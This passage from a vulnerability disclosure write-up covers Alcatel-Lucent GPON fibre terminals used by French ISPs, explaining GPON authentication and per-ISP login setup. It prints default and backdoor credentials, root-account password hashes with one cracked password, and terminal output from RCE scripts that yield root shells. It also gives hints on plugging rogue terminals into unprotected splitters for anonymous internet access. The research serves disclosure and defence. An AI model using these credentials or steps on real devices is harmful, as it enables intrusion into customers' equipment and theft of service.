






GPON FTTH networks (in)security
Table of contents
1. Introduction
2. Explanation of GPON networks
2.1. GPON Network
2.2. ONT/ONU used in this research
2.3. ONT Authentication
3. Studying the ONTs
4. Internet Authentication
4.1. SFR
4.2. Orange
4.3. Bouygues FTTH
5. Security Threat against the GPON FTTH model
6. Physical Security
7. Powning the ONT
7.1. Remote Code execution
7.2. Analysing the ONT
7.3. Backdoor credentials in /etc/passwd*
7.4. Backdoor accounts in the HTTP configuration files
7.5. Bad UNIX RIGHTS and UID/GID everywhere
7.6. Same SSH keys used in all the firmware
7.7. Reverse-engineering - introducing Alcatel binaries
7.8. Reverse-engineering - Strange binary
8. Bruteforce
9. Conclusion
10. Report Timeline
11. Credits and Greetings
12. License
1. Introduction
GPON FTTH network is the future: GPON FTTH (Fiber To The Home) is very popular because it is cheap and allows people to download legal Video On Demand damn fast. Everybody wants GPON FTTH at home, you, me, my dog and my neighbors. In fact, you are sharing 2.5gbps of downstream with others clients (but it is still fast).
This article will present FTTH GPON (in)security, based on attacks against IoT. It's mainly written against GPON networks in France and will focus on Alcatel Lucent GPON networks (Orange, Bouygues and SFR). Free FTTH network (point to point network) is out of scope in this research.
This is the first public article about (in)security of FTTH GPON networks. It will contain RCE against ONT/ONU (the device located in your house which is connected to the fiber optic) and tips how to potentially get an anonymous 1gbps Internet connection in France. The legal implication of this research is interesting: When FTTH connections are involved, the IP used as evidence may not be identifiable any more thus questions its legitimate value.
Telecom Italia did a great presentation about theoretical GPON security in 2009, but there are not a lot of documentations about the security of GPON FTTH networks apart from this presentation. Please note there may have some facts that still need to be clarified in this research (but all the major facts were confirmed by a major French ISP).
This research was mainly done in 2013-2014 but was kept private. It was done for educational purpose in order to understand how GPON FTTH works.
Legal Note: these tests were done using my FTTH connections at home. Yes, you can have up to 4 FTTH connections working at the same time with same or different ISPs in France. Orange was contacted 6 months ago (May 11, 2016) about these vulnerabilities.
You can find FTTH GPON networks in other countries too, e.g. South Korea.
2. Explanation of GPON networks
A GPON network is a passive optical network featuring one-to-multipoint architecture.
It consists of Optical Line Terminal (OLT), Passive Optical Splitter and Optical Network Unit (Optical Network Transceiver, ONU/ONT). The fiber optic strands are shared among multiple clients: splitters are used to separate and aggregate the optical signal.
GPONis the acronym for Gigabit-capable Passive Optical NetworksOLTis the acronym for Optical Line Terminal.ONUis the acronym for Optical Network Unit. - multiple clientsONTis the acronym for Optical Network Transceiver or Optical Network Terminal - single clientsSLIDis the acronym for Subscriber Line IDentifier.POSis the acronym for Passive Optical Splitter.
A GPON network allows multiple ISP. In France, Orange, SFR and Bouygues Telecom are using the same GPON FTTH networks.
2.1. GPON Network

{kind=link}
The ONU is hosted at home, and it encodes and receives the signal for the fiber. It's basically a blackbox.
We can name the ONU an ONT (Optical Network Transceiver) because it translates the signals present in the fiber (light) into electrical signals (RJ45), and vice versa.
From a Huawei presentation: 
They are connected in the underground to a large passive splitter. This splitter doesn't have physical security protection (we will speak about this point later).

-- Photo from http://www.degroupnews.com/dossier/sfr-pose-la-fibre-optique-dans-un-appartement
Transmission of data:
According to the specification, transmitting upstream is in cleartext.
The downstream can be optionally encrypted using AES-128. It depends on the ISP.
From a Huawei presentation: 
2.2. ONT/ONU used in this research

From left to right:
ONTcurrently provided by SFR France: Alcatel I-020G-F.- Second
ONTprovided by Orange France since 2014: Alcatel I-010G-A. - First
ONTprovided by Orange France in 2013: Alcatel I-010G-A.

From left to right:
- Back of the first
ONTprovided by Orange France in 2013. - Back of the second
ONTprovided by Orange France since 2014. - Back of the
ONTcurrently provided by SFR France.
The fiber is linked to a remote OLT managed by the ISP, as shown in the network diagram. The RJ45 port is normally linked to a proprietary triple-play box (or a linux/*BSD router).
The ONT provided by SFR has 2 gigabit RJ45 connectors. Only the port 1 seems to be usable.
The 3 ONT are Alcatel-Lucent products. They seem to share the same vulnerabilities.
2.3. ONT Authentication
G.984.3 defines two authentication mechanisms:
- pre-provision of the
ONU/ONTto anOLT, using a sharedSLID(Subscriber Line IDentifier) - the
SLIDis unknown and theOLTactivates theONT/ONUon the fly.
There is no verification of the remote OLT, so authentication with a rogue remote OLT is possible, allowing wiretapping. This is another subject.
The SLID can be in different modes:
PERMANENTVOLATILEREGISTRATION
The SLID can be saved in two formats: hexadecimal or alphanumeric.
From my research, the SLID for a SFR connection is VOLATILE and is not set to a fixed value: the OLT activates the ONT on the fly.
The SLID for an Orange connection is PERMANENT and is a shared secret between the ONU/ONT and the OLT. The SLID is entered into the ONT by a technician when he comes to your home to install the fiber.
The authentication is based on this value. Changing the SLID to an incorrect value will interrupt the connection of the ONT to the remote OLT, which means NO INTERNET.
The SLIDs that were linked to my Orange FTTH accounts were (obfuscated, with 0 for numbers and X for letters):
- 0W1JXXXX <- it looked like a random string (alphanumeric)
- 0562100000 <- it looked like a French phone number
3. Studying the ONTs
ONT is our heaven's gate. Controlling ONT will give us a lot of possibilities.
You need to be on the same subnet to access to ONT:
user@kali:~$ sudo ifconfig eth0 192.168.4.1 netmask 255.255.255.0
Nmap against the device:
user@kali:~$ sudo nmap -sS -sV -v -O -n 192.168.4.254
Starting Nmap 4.37 ( http://nmap.org ) at 2014-02-03 12:54 EDT
NSE: Loaded 29 scripts for scanning.
Initiating ARP Ping Scan at 12:54
Scanning 192.168.4.254 [1 port]
Completed ARP Ping Scan at 12:54, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:54
Scanning 192.168.4.254 [1000 ports]
Discovered open port 23/tcp on 192.168.4.254
Discovered open port 22/tcp on 192.168.4.254
Discovered open port 80/tcp on 192.168.4.254
[...]
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
23/tcp open telnet Linux telnetd
80/tcp open http BusyBox httpd
MAC Address: AC:9C:E4:AA:AA:AA (Alcatel-Lucent Shanghai Bell Co.)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.47%E=4%D=6/30%OT=22%CT=1%CU=36398%PV=Y%DS=1%DC=D%G=Y%M=AC9CE4%T
OS:M=5592C9CF%P=x86_64-unknown-linux-gnu)SEQ(SP=CE%GCD=1%ISR=D0%TI=Z%CI=Z%I
OS:I=I%TS=8)OPS(O1=M5B4ST11NW0%O2=M5B4ST11NW0%O3=M5B4NNT11NW0%O4=M5B4ST11NW
OS:0%O5=M5B4ST11NW0%O6=M5B4ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0
OS:%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M5B4NNSNW0%CC=N%Q=)T1(R=Y%DF=Y%T=40%
OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M5B
OS:4ST11NW0%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IP
OS:L=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Uptime guess: 0.001 days (since Tue Feb 03 12:52:52 2014)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; Device: media device; CPE: cpe:/o:linux:linux_kernel
The daemon on port 22 doesn't want to speak to my telnet client :(
user@kali:~$ telnet 192.168.4.254 22
Trying 192.168.4.254...
Connected to 192.168.4.254.
Escape character is '^]'.
PATATE
Connection closed by foreign host.
user@kali:~$
From my research, an ONT has two remote panels:
- a HTTP webpage (http://192.168.4.254/)
- a telnet account (telnet://192.168.4.254)
There is a documented backdoor account in the busybox mailing list (2009, http://lists.busybox.net/pipermail/busybox/2009-July/070031.html written by an Alcatel employee). This is a limited account, allowing only to change small things in the device:
login: CRAFTSPERSON (was "CRAFT" at first, from the mailing list post)
password: ALC#FGU
This is the account used by technicians to configure the ONT during the FTTH installation and is widely known.
The backdoor account can be found too using the NeufBox configuration API
user@kali:~$ wget 'http://ncdn.nb4dsl.neufbox.neuf.fr/nb6_Version%203.3.9/NB6-CONFIG-R3.3.9.2'
This file contains the credentials for the ONT:
</plc>
<ont>
<active>on</active>
<mode>ondemand</mode>
<ip>192.168.4.254</ip>
<userI010>admin4me</userI010>
<passwordI010>connect4you@support</passwordI010>
<defslidI010>1111111111</defslidI010>
<userI020>CRAFTSPERSON</userI020>
<passwordI020>ALC#FGU</passwordI020>
<defslidI020>DEFAULT</defslidI020>
<delay>
<system>600</system>
<webui>300</webui>
</delay>
<debug>off</debug>
</ont>
Administration webpage (in Flash) using the credentials:

Login to the first Orange ONT using the backdoor account will provide a restricted shell.
user@kali:~$ telnet 192.168.2.254
Trying 192.168.4.254...
Connected to 192.168.4.254.
Escape character is '^]'.
MontaVista(R) Linux(R) Professional Edition 3.1
Linux/ppc 2.4.20_mvl31-gponsoc
(none) login: CRAFTSPERSON
Password:
MontaVista(R) Linux(R) Professional Edition 3.1
===============================================================
Craft user Login
===============================================================
Main Menu
===============
1. Enter SLID in volatile mode
2. Enter SLID in permanent mode (non-volatile)
3. Enter SLID in registration mode (non-volatile)
4. Retrieve SLID
5. Clear SLID
6. Retrieve ranging state
7. Retrieve optical level
8. More options
9. Logout
Enter choice : 4
The SLID in ALPHANUMERIC MODE (Volatile) : DEFAULT
Main Menu
===============
1. Enter SLID in volatile mode
2. Enter SLID in permanent mode (non-volatile)
3. Enter SLID in registration mode (non-volatile)
4. Retrieve SLID
5. Clear SLID
6. Retrieve ranging state
7. Retrieve optical level
8. More options
9. Logout
Enter choice : 6
Ranging State = Initial State (Auto-Disable State = Normal State)
press enter key to continue...
Main Menu
===============
1. Enter SLID in volatile mode
2. Enter SLID in permanent mode (non-volatile)
3. Enter SLID in registration mode (non-volatile)
4. Retrieve SLID
5. Clear SLID
6. Retrieve ranging state
7. Retrieve optical level
8. More options
9. Logout
Enter choice : 7
ponOpticalSignalLevel = -50.00 dBm
press enter key to continue...
Main Menu
===============
1. Enter SLID in volatile mode
2. Enter SLID in permanent mode (non-volatile)
3. Enter SLID in registration mode (non-volatile)
4. Retrieve SLID
5. Clear SLID
6. Retrieve ranging state
7. Retrieve optical level
8. More options
9. Logout
Enter choice : 8
Additional menu items are not available, press enter key to continue...
This account can only configure options relative to the SLID and can show the SLID and the fiber optical signal level.
4. Internet Authentication
When you connect the fiber to the ONT, then the ONT to the proprietary box (router), you need to understand how the proprietary box gets an Internet connection:
(Internet) ---Fiber--- [ONT] ---RJ45--- [Router provided by the ISP]
| |
RJ45 Wifi
| |
[Computer 1] [Computer 2]
By using a Linux/BSD computer instead of the provided router:
(Internet) ---Fiber--- [ONT] ---RJ45--- [Linux Computer]
4.1. SFR
When using SFR, there is no Internet Authentication.
Assuming you are sending the correct vendor string in the DHCP request:
send dhcp-class-identifier "neufbox5_NB5-SER-r1_ND5-MAIN-R2.2.2";
Typing dhclient eth0 in your Linux laptop, connected to the ONT, will give you a public IP on your eth0 interface.
4.2. Orange
When using Orange, the situation is MUCH more complicated. There is a complicated authentication for accounting.
You have to do PPPoE authentication over VLAN835. In my view, PPPoE is used because of legacy reason (compatibility with RTC and ADSL authentication servers).
835 seems to be a tribute to the 8/35 VCI/VPI (Virtual Path Identifier, Virtual Circuit Identifier) used in ADSL connection with ATM encapsulation. Others VLANs are used (for voice and for TVs but it's out of scope).
An OpenBSD configuration is:
# cat /etc/hostname.if0
up
# cat /etc/hostname.vlan835
vlan 835 vlandev if0 up
# cat /etc/hostname.pppoe0
inet 0.0.0.0 255.255.255.255 NONE \
ppppoedev vlan835 authproto chap \
authname 'fti/XXXXXXX' authkey 'XXXXXXX'
up
dest 0.0.0.1
!/sbin/route add default ifp pppoe0 0.0.0.1
#
A Linux configuration is more complex (from https://benjamin.sonntag.fr/spip.php?page=forum&id_article=43&id_forum=60&lang=fr):
$ cat /etc/network/interfaces
auto eth0 eth0.835 ppp0
iface eth0 inet manual
iface eth0.835 inet manual
iface ppp0 inet ppp
provider ft_fibre
$ cat/etc/ppp/peers/ft_fibre
pty "/usr/sbin/pppoe -I eth0.835 -T 80 -m 1452"
noipdefault
hide-password
lcp-echo-interval 20
lcp-echo-failure 3
connect /bin/true
noauth
persist
mtu 1492
usepeerdns
defaultroute
noaccomp
default-asyncmap
plugin rp-pppoe.so eth0.835
user "fti/XXXXXXX"
$ cat /etc/ppp/chap-secrets:
"fti/XXXXXXX" * "XXXXXXX"
Note that when you are using an Orange connection, you are directly authenticated on the orange website (www.orange.fr), based on your IP. You can manage the connection, read the emails, evil stuff ...
From my research, you need valid PPPoE FTTH credentials. ADSL and RTC credentials don't work.
Breaking news: it appears Orange is starting to replace PPPoE authentication with DHCP (without authentication) since november 2015. This needs to be confirmed but several sources use DHCP to get a working IPv4.
4.3. Bouygues FTTH
When using Bouygues, there is no Internet Authentication.
Bouygues uses DHCP over VLAN200.
Assuming you are sending the correct vendor string in the DHCP request with the MAC address of the provided router:
send vendor-class-identifier "byteliad_data";
Typing dhclient eth0.200 in your Linux laptop, connected to the ONT, will give you a public IP on your eth0.200 interface.
5. Security Threat against the GPON FTTH model
From telecomitalia_delutiis_nextgenerationaccessnetwork(in)security.pdf:
The security mechanisms already defined are based on the assumption that all the GPON elements will be strongly physically protected. GPON communication are vulnerable to severe security issues, such as:
Fake/Forged OLT: currently no OLT identification and authentication mechanisms have been specified
Man In The Middle (MITM) attacks
Passive attacks: password and keys sent as cleartext Active attack: sensitive PLOAM messages are not authenticated (e.g. PASSWORD, encryption KEY)Several kinds of DOS (Denial of Service) at GPON level e.g. during the activation phases.
-- telecomitalia_delutiis_nextgenerationaccessnetwork(in)security.pdf
6. Physical Security
From what we know now, an attacker can easily go in the basement of buildings and connect rogue ONTs to the splitter by disconnecting legitimate clients. It appears all the GPON elements are not strongly physically protected and having access to elements is trivial.
Photos from http://www.degroupnews.com/dossier/sfr-pose-la-fibre-optique-dans-un-appartement:
If they are SFR clients, just connecting an ONT configured in a VOLATILE mode will give, in theory, an attacker an anonymous high speed (1gpbs) Internet Access with a public IP address.
If they are Bouygues clients, just connecting an ONT configured in a VOLATILE mode will give, in theory, an attacker an anonymous high speed (1gpbs) Internet Access with a public IP address.
If they are Orange clients, an attacker needs to have a valid SLID and valid FTTH credentials to get an Internet connection: this sucks for the attacker but there are solutions (hint: SLID bruteforce). Note that, apparently, Orange is starting to accept DHCP instead of PPP authentication.
7. Powning the ONT
As we've already see, the ONT/ONU are Linux/ppc 2.4.20_mvl31-gponsoc clients devices.
Note that Bouygues seems to use another model of ONT.
7.1. Remote Code execution
We are lucky to see there is a trivial RCE in the CGIs available and 2 valid 0day exploits were written for the noble cause.
user@kali:~$ ./hacktheplanet.sh
Adding an user ONT / ALC#FGU
Launching telnet client
Trying 192.168.4.254...
Connected to 192.168.4.254.
Escape character is '^]'.
MontaVista(R) Linux(R) Professional Edition 3.1
Linux/ppc 2.4.20_mvl31-gponsoc
(none) login: ONT
Password: ALC#FGU
MontaVista(R) Linux(R) Professional Edition 3.1
BusyBox v1.4.2 (2010-11-10 23:30:26 EST) Built-in shell (ash)
Enter 'help' for a list of built-in commands.
$ id
uid=100(CRAFTSPERSON) gid=100(users)
$ ls -latrR /
Segmentation fault
$ echo wow
wow
$ ps -auxww
PID Uid VmSize Stat Command
1 root 564 S init [3]
2 root SW [keventd]
3 root SWN [ksoftirqd_CPU0]
4 root SW [kswapd]
5 root SW [bdflush]
6 root SW [kupdated]
7 root SW [mtdblockd]
109 root 644 S /usr/sbin/inetd
126 root SWN [jffs2_gcd_mtd3]
138 root 1600 S /usr/sbin/sshd
417 root 1212 S /usr/alcatel/bin/dbg_logger
418 root 1212 S /usr/alcatel/bin/dbg_logger
420 root 1212 S /usr/alcatel/bin/dbg_logger
431 root 1244 S N /usr/alcatel/bin/bkgndprocess
439 root 1124 S /usr/alcatel/bin/ontah
450 root 1256 S /usr/alcatel/bin/parser
462 root 1616 S /usr/alcatel/bin/omciMgr
473 root 1400 S /usr/alcatel/bin/gponMac
516 root 672 S /usr/bin/httpd -h /usr/alcatel/web
531 root 1648 S /var/temp/tagging
546 root 1348 S /usr/alcatel/bin/IGMP
554 root 1268 S /usr/alcatel/bin/ethOAM
563 root 1180 S N /usr/alcatel/bin/rateShaping
572 root 1144 S N /usr/alcatel/bin/IBcast
589 root 1256 S N /usr/alcatel/bin/EFMOAM
602 root 1256 S N /usr/alcatel/bin/EFMOAM
603 root 1256 S N /usr/alcatel/bin/EFMOAM
604 root 1256 S N /usr/alcatel/bin/EFMOAM
605 root 1176 S /usr/alcatel/bin/eqpt
613 root 1648 S /var/temp/tagging
614 root 1648 S /var/temp/tagging
615 root 1648 S /var/temp/tagging
616 root 1256 S /usr/alcatel/bin/parser
617 root 1256 S /usr/alcatel/bin/parser
618 root 1348 S /usr/alcatel/bin/IGMP
619 root 1348 S /usr/alcatel/bin/IGMP
620 root 1268 S /usr/alcatel/bin/ethOAM
621 root 1268 S /usr/alcatel/bin/ethOAM
622 root 1268 S /usr/alcatel/bin/ethOAM
627 root 1180 S N /usr/alcatel/bin/rateShaping
628 root 1180 S N /usr/alcatel/bin/rateShaping
629 root 1144 S N /usr/alcatel/bin/IBcast
630 root 1144 S N /usr/alcatel/bin/IBcast
646 root 524 S /sbin/getty -L tts/1 9600 115200 vt100
908 root 652 S inetd
1155 root 832 S in.telnetd: 192.168.4.251
1156 CRAFTSPERSO 848 S -sh
1520 CRAFTSPERSO 648 R ps -auxww
$
Nice but I prefer a root shell:
user@kali:~$ ./hackthemoon.sh
to the moon ...
done
id
uid=0(root) gid=0(root)
echo much access very root !
much access very root !
ls -la
drwxr-xr-x 15 3079 619 1024 Jun 29 2013 .
drwxr-xr-x 15 3079 619 1024 Jun 29 2013 ..
drwxrwxrwx 2 4223 619 1024 Nov 18 2010 bin
drwxr-xr-x 1 root root 0 Jan 1 1970 dev
drwxrwxrwx 11 4223 619 1024 Dec 31 23:59 etc
drwxrwxrwx 4 51454 619 1024 Nov 11 2005 home
drwxrwxrwx 4 4223 619 2048 Aug 2 2005 lib
drwx------ 2 root root 12288 Jun 29 2013 lost+found
drwxrwxrwx 2 51454 619 1024 Aug 2 2005 mnt
dr-xr-xr-x 64 root root 0 Jan 1 1970 proc
drwxrwxrwx 2 51454 619 1024 Aug 2 2005 root
drwxrwxrwx 2 4223 619 1024 Aug 2 2005 sbin
drwxrwxrwx 2 51454 619 1024 Jan 1 00:00 tmp
drwxrwxrwx 11 4223 619 1024 Aug 2 2005 usr
drwxrwxrwt 5 root root 100 Jan 1 2006 var
echo nice unix rights !!
nice unix rights !!
You can fetch hacktheplanet.sh.
You can fetch hackthemoon.sh.
A proofreader noted that it would be easier to create an exploit which adds an user with UID 3079 and GID 619. He is right.
7.2. Analysing the ONT
Memory/CPU:
$ cat /proc/meminfo
total: used: free: shared: buffers: cached:
Mem: 62537728 55193600 7344128 0 663552 31174656
Swap: 0 0 0
MemTotal: 61072 kB
[...]
$ cat /proc/cpuinfo
cpu : e300c2 (83xx)
revision : 0.32 (pvr 8084 0020)
bogomips : 188.00
Vendor : Freescale Inc.
Machine : msc7120
core clock : 282 MHz
bus clock : 141 MHz
PVR : 0x80840020
SVR : 0x80400010
SPRIDR : 0x80400021
PLL setting : 0x8
Memory : 64 MB
$ uname -ap
Linux (none) 2.4.20_mvl31-gponsoc #1 Wed Jul 31 09:26:02 EDT 2013 ppc unknown
$
7.3. Backdoor credentials in /etc/passwd*
The /etc/passwd* files contain backdoor credentials to login to the remote ONT:
user@kali:~$ cat passwd
root:*:0:0::/tmp:/bin/sh
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/usr/sbin:
sys:*:3:3:sys:/dev:
adm:*:4:4:adm:/var/adm:
lp:*:5:7:lp:/var/spool/lpd:
sync:*:6:8:sync:/bin:/bin/sync
shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown
halt:*:8:10:halt:/sbin:/sbin/halt
mail:*:9:11:mail:/var/spool/mail:
news:*:10:12:news:/var/spool/news:
uucp:*:11:13:uucp:/var/spool/uucp:
operator:*:12:0:operator:/root:
games:*:13:100:games:/usr/games:
ftp:*:15:14:ftp:/var/ftp:
man:*:16:100:man:/var/cache/man:
nobody:*:65534:65534:nobody:/home:/bin/sh
CRAFTSPERSON:$2$367ffe585fc3070eabc901c03cd561d062ce1b67:100:100::/tmp:/usr/alcatel/bin/craftsh
sshd:*:74:74:Privilege-separated SSH:/tmp:/sbin/nologin
ONTUSER:$2$6003c3d66874a4fd38aecb0b09db563e85a62ad6:0:0::/tmp:/bin/sh
It appears that ONTUSER is a backdoor root account.
Other files exist in /etc - passwd.ENABLE:
user@kali:~$ cat passwd.ENABLE
root:*:0:0::/tmp:/bin/sh
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/usr/sbin:
sys:*:3:3:sys:/dev:
adm:*:4:4:adm:/var/adm:
lp:*:5:7:lp:/var/spool/lpd:
sync:*:6:8:sync:/bin:/bin/sync
shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown
halt:*:8:10:halt:/sbin:/sbin/halt
mail:*:9:11:mail:/var/spool/mail:
news:*:10:12:news:/var/spool/news:
uucp:*:11:13:uucp:/var/spool/uucp:
operator:*:12:0:operator:/root:
games:*:13:100:games:/usr/games:
ftp:*:15:14:ftp:/var/ftp:
man:*:16:100:man:/var/cache/man:
nobody:*:65534:65534:nobody:/home:/bin/sh
CRAFTSPERSON:o4ePHnSAbwl3o:100:100::/tmp:/bin/sh
ICONFIG:9E/ixZ86A5mTQ:0:0:Alcatel User,,,:/tmp:/bin/sh
restricted:W6wa7UoRwHH7k:0:0::/tmp:/bin/mysh
sshd:*:74:74:Privilege-separated SSH:/tmp:/sbin/nologin
ONTUSER:ViUjCv6nSZ38U:0:0::/tmp:/bin/sh
Other backdoor accounts but not used (ICONFIG, restricted -- with root privileges).
The passwd.DISABLE file contains credentials too:
user@kali:~$ cat passwd.DISABLE
root:*:0:0::/tmp:/bin/sh
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/usr/sbin:
sys:*:3:3:sys:/dev:
adm:*:4:4:adm:/var/adm:
lp:*:5:7:lp:/var/spool/lpd:
sync:*:6:8:sync:/bin:/bin/sync
shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown
halt:*:8:10:halt:/sbin:/sbin/halt
mail:*:9:11:mail:/var/spool/mail:
news:*:10:12:news:/var/spool/news:
uucp:*:11:13:uucp:/var/spool/uucp:
operator:*:12:0:operator:/root:
games:*:13:100:games:/usr/games:
ftp:*:15:14:ftp:/var/ftp:
man:*:16:100:man:/var/cache/man:
nobody:*:65534:65534:nobody:/home:/bin/sh
CRAFTSPERSON:o4ePHnSAbwl3o:100:100::/tmp:/bin/sh
ICONFIG:9E/ixZ86A5mTQ:0:0:Alcatel User,,,:/tmp:/bin/sh
restricted:W6wa7UoRwHH7k:0:0::/tmp:/bin/mysh
sshd:*:74:74:Privilege-separated SSH:/tmp:/sbin/nologin
ONTUSER:megWL9CFKXbmA:0:0::/tmp:/bin/sh
Other interesting users (with root privileges) with hashes: ICONFIG, restricted, ONTUSER.
John will reveal password, like:
restricted:iitywimw:0:0::/tmp:/bin/mysh
7.4. Backdoor accounts in the HTTP configuration files
The /usr/alcatel/web/httpd.conf file contains credentials:
user@kali:~$ ./usr/alcatel/web/httpd.conf
/:ONTUSER:$1$$j5N8wFCZNAAGhA8WA2tgJ.
/:CRAFTSPERSON:$1$$UjLhdhvWxqvlRh9TGNIv7/
And the /etc/httpd.conf contains credentials too:
user@kali:~$ cat ./etc/httpd.conf
A:192.168.4.
D:*
/:CRAFTSPERSON:$1$$UjLhdhvWxqvlRh9TGNIv7/
7.5. Bad UNIX RIGHTS and UID/GID everywhere
# ls -la /
drwxr-xr-x 15 3079 619 1024 Jun 29 2013 .
drwxr-xr-x 15 3079 619 1024 Jun 29 2013 ..
drwxrwxrwx 2 4223 619 1024 Nov 18 2010 bin
drwxr-xr-x 1 root root 0 Jan 1 1970 dev
drwxrwxrwx 11 4223 619 1024 Dec 31 23:59 etc
drwxrwxrwx 4 51454 619 1024 Nov 11 2005 home
drwxrwxrwx 4 4223 619 2048 Aug 2 2005 lib
drwx------ 2 root root 12288 Jun 29 2013 lost+found
